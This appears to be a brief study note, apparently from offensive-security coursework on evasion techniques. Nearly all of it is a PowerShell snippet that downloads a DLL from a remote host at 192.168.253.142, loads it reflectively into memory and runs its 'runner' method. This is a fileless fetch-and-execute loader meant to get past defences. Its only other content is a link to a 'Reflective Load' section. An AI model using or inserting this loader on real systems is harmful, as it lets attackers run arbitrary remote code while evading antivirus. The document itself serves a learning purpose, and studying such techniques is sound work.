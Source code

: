```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.253.142:8000/ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null) 
```

More Info:
![[Evasion Techniques and Breaching Defenses#4 3 1 Reflective Load]]
